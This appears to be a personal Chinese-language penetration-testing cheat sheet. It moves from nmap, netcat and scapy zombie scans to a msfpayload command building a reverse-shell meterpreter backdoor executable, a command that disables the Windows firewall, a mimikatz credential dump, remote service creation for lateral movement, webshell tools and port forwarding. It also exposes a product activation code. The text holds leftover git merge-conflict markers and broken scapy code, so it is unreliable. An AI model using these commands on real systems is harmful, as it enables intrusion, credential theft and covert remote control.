 # 渗透网站

修改wifi sid

https://lexsaints.blog.csdn.net/article/details/117260497

# 工具

APPscan 

goby Burp

pocsuite



#### sqlmap 渗透数据库



批量 扫描存活地址

fping -ag 192.169.99.0/24



#### nmap 端口扫描，探询那些端口存活



nmap -sn  192.168.99.0/24

nmap -sn  192.168.199.0-254



-sn 表示只进行ping 扫描，不进行端口

全连接扫描会被记录，半连接扫描不会被记录

使用nmap 半连接：

nmap -sS  192.168.199.223 -p  80,81,3306

-sS  表示使用SYN 进行半连接扫描



扫描开放的端口和操作系统

nmap -sS  -O 192.168.99.126

-O 显示操作系统 每一种操作系统都有特定的指纹

扫描目标主机是否有漏洞

nmap --script=vuln  192.168.99.127



#### nc( netcat) 进行端口扫描

nc -z -v -n 192.168.78.128  1-100 

- z 表示为zero，意思是扫描时不发送任何数据包
- -v 即为详细输出
- -n 不使用dns反向查询ip地址域名

#### scapy 

apt  install python3-pyx

####  僵尸扫描

rz1=sr1(IP(dst="192.168.1.54")/TCP(dport=445,falgs="SA"))

rt=sr1(IP(dst="192.168.1.54",dst="192.168.1.163")/TCP(dport=22),timeout=1)  //第二张图
rz2=sr1(IP(dst="192.168.1.54")/TCP(dport=445,falgs="SA"))   //第三张图
rz1.display()   //查看IPID

nmap 扫描僵尸主机

nmap -p端口 僵尸主机IP地址 --script=ipidseq.nse



|_ipidseq: Incremental!  说明是可以作为僵尸主机的



伪造僵尸主机IP进行扫描

nmap 目标主机IP -sI 僵尸主机IP -Pn -p 端口号

#### wireshark  使用



过滤器的使用

port  80 捕获 80端口相关的



ttl默认值

/proc/sys/net/ipv4/ip_default_ttl





#### zenmap



#### nessus  漏洞检测

https://www.tenable.com/downloads/nessus?loginAttempted=true

启动

/bin/systemctl start nessusd.service

Nessus
License Information
Activation Code: MPMX-VGRB-9BRV-52NA-DXNE



jingyu323

msf6  扫描结果

<<<<<<< HEAD
- vulns 显示漏洞
- use 
- creds  显示数据库中的所有平局

db_nmap -sV 192.168.99.131  查看开放端口



使用 auxiliary/sniffer 下的psnuffle 模块进行密码嗅探



smb_enumshare



字典路径

/usr/share/metasploit-framework/data/wordlists

#### msfpayload  生成后门

```
msfpayload windows/meterpreter/reverse_tcp LHOST=5.5.5.1 LPORT=8080 R | \
  msfencode -b '' -t exe -o /var/www/meterpreter.exe
```

#### metasploit 漏洞扫描工具

文档

https://www.kancloud.cn/wizardforcel/metasploit-manual/108071

启动

msfdb run

关闭windows防火墙

netsh firwall set opmode disable

mimikatz.exe 破解win密码

破解密码命令

mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"



## 控制别人电脑工具

蚁剑  (php)

下载地址

https://github.com/AntSwordProject/AntSword-Loader

哥斯拉（java）

冰蝎 （）

菜刀 （ASP）



### 横向移动：

方式：



命令行创建服务

sc \\owa.god.org create test binpath="cmd.exe /c c:\smb.exe"

开启服务

sc \\\ owa.god.org start test



## 渗透测试



测试基本流程：

1.  确定目标
2. 信息收集
3. 漏洞探测
4. 漏洞分析
5. 漏洞利用
6. 信息整理
7. 形成报告
=======
msfdb run  启动msf

#### 设置后门

windows 提权  getsystem
- 0day
- word 文档
- apk
-  宏
-  
Vegil 

#### frp 内网穿透

需要一个带公网IP的服务器

portfwd 映射端口

 192.168.1.53 源  目标需要被映射的地址 192.168.1.119 

 portfwd   add  -L  192.168.1.53  ‐ l   33389   ‐ r   192.168.1.119   ‐ p 3389
